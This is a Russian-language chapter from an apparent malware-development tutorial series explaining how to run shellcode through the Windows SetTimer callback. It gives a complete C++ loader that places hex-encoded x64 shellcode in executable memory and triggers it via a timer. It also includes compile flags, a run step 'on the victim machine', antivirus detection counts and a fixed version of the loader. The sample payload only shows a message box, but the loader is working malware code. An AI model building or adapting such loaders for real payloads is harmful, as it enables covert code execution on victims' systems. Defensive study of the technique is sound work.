




\newpage
\subsection{44. трюк разработки вредоносного ПО. Запуск шеллкода через SetTimer. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}      

Эта статья является результатом моего собственного исследования следующего интересного трюка: запуск шеллкода через функцию `SetTimer`.      

### SetTimer

Функция `SetTimer` является частью Windows API. Она используется для создания таймера с заданным временем ожидания.     

Вот её базовый синтаксис:    

```cpp
UINT_PTR SetTimer(
  HWND      hWnd,
  UINT_PTR  nIDEvent,
  UINT      uElapse,
  TIMERPROC lpTimerFunc
);
```

Где:

- `hWnd`: Дескриптор окна, связанного с таймером. Это окно должно принадлежать вызывающему потоку. Если передан `NULL` вместе с `nIDEvent` существующего таймера, старый таймер будет заменён новым.      
- `nIDEvent`: Идентификатор таймера (ненулевой). Если `hWnd` равно `NULL`, и `nIDEvent` не соответствует существующему таймеру, он игнорируется, и создаётся новый ID таймера. Если `hWnd` не равно `NULL`, и указанное окно уже имеет таймер с `nIDEvent`, то старый таймер заменяется новым.      
- `uElapse`: Время ожидания в миллисекундах.      
- `lpTimerFunc`: Указатель на функцию, которая вызывается по истечении времени ожидания. Если этот параметр равен `NULL`, система отправляет сообщение `WM_TIMER` в очередь приложения. Это сообщение обрабатывается оконной процедурой.      

### практический пример

Итак, в чём суть трюка? Просто посмотрите на этот код (`hack.c`):      

```cpp
/*
 * hack.cpp - shellcode execution via SetTimer. 
 * C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/04/malware-tricks-31.html
*/
#include <stdio.h>
#include <windows.h>

int main(int argc, char* argv[]) {
  unsigned char my_payload[] =
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  PVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT | MEM_RESERVE, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  UINT_PTR dummy = 0;
  MSG msg;

  SetTimer(NULL, dummy, NULL, (TIMERPROC)mem);
  GetMessageA(&msg, NULL, 0, 0);
  DispatchMessageA(&msg);

  return 0;
}
```

Как можно заметить, этот код пытается выполнить шеллкод, используя API `SetTimer` Windows, передавая в него указатель на функцию `(TIMERPROC)`, которая будет вызвана по истечении таймера.     

Как обычно, для простоты я использовал полезную нагрузку с messagebox `meow-meow`:      

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация

Давайте посмотрим всё в действии. Компилируем наш "вредонос":     

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

{width="80%"}      

Запускаем на машине жертвы:     

```powershell
.\hack.exe
```

{width="80%"}      

Как можно заметить, всё сработало идеально! =^..^=

Давайте загрузим `hack.exe` на VirusTotal:       

{width="80%"}      

**Итак, 19 из 71 антивирусных движков определили наш файл как вредоносный.**      

[https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection](https://www.virustotal.com/gui/file/6b418cb08b87c07246170577503e9ef2e98f39e44afa9b53a0747fa9f5ed524e/detection)       

Но, похоже, в нашем "грязном" PoC-коде есть проблема.      

Функция `SetTimer` требует установки параметра `uElapse`, который представляет собой значение времени ожидания в миллисекундах. Если установить его в `NULL` или `0`, функция не создаст таймер. Поэтому, если мы хотим выполнить шеллкод немедленно, нам нужно установить `uElapse` в `1`. Например так:      

```cpp
SetTimer(NULL, dummy, 1, (TIMERPROC)mem);  // Set uElapse to 1
while (GetMessageA(&msg, NULL, 0, 0)) {    // Using while loop to keep the 
                                           //message pump running
  DispatchMessageA(&msg);
}
```

Этот код создаст таймер, который сработает практически мгновенно и вызовет наш шеллкод в качестве функции обратного вызова. Конечно, стоит отметить, что такая техника может быть распознана антивирусами как вредоносная из-за аномального поведения выполнения кода через таймерный callback.        

Я пока не встречал этот трюк в реальных вредоносных программах и APT-атаках. Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике разработки вредоносного ПО и добавит оружие в арсенал красных команд.      

[SetTimer](https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-settimer)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)        
[Classic DLL injection into the process. Simple C++ malware](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)        
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-06-04-malware-tricks-31)           
